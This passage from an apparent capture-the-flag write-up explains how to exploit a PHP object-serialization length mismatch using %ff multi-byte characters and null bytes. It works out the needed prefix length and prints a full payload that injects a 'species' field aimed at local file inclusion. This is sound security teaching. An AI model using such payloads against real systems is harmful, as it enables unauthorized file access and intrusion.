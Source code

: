 We can combine both the multi-byte encoding (`%ff`) and the null bytes (`%00`) to create and control the other fields.

In this case we want to control `$species` since the `printInfo()` allows us to perform LFI (Local File Inclusion) exploits (or at least that was what I thought, see [Reading from ENV (Environment Variables)](#reading-from-env-environment-variables).

#### Exploiting Serialization with Multi/Null Bytes

To create the payload, we must understand how the multi-byte values work.

When trying directly with the multi-byte value, it serializes and counts as **2 characters**.
```json
s:2:"ÿ" --encoding--> s:2:"Ã¿"
```

Using the multi-byte character (`%ff`) counts as **1 character**.
```json
s:1:"�" --encoding--> s:1:"ÿ"
```

From here we can make an equation to determine the number of multi-byte characters we require to make the `s:X` interpret the whole multi-byte values as part of the `name` field.

Let `X` be the serialized length of the payload (before encoding).
Let `L` be the total length of the payload
Let `H` be the number of multi-byte values.

```
X = L + H
```

The condition I need to fulfill is `X == 2H`, which simply means that `H = L`.

For example, given the payload:
```json
";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}%00
```
*56 characters after converting from URL-encoded to UTF-8.*

Since there are 56 characters, I will need 56 multi-byte characters in front as the prefix.
```json
%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}%00
```
*112 characters after converting from URL-encoded to UTF-8.*

This will result in the following final encoded string:
```json
O:5:"Virus":3:{s:4:"name";s:112:"ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}
```

Each `ÿ` character counts as 2 characters. Since there are 56 of them, it evaluates to 112 characters. Thus, the `name` field will only take the entire `ÿ` string payload in and everything else after is part of the actual serialized object.

#### Reading from ENV (Environment Variables)
